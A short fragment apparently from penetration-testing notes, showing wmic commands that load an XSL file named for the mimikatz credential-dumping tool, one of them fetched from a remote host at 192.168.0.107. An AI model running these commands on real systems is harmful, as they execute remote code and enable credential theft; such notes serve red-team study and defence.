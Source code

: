 	>wmic os get /format:"mimikatz.xsl"
![image](/assets/Pentest_Note/master/img/314.png)

	>wmic os get /format:"http://192.168.0.107/ps/mimi.xsl"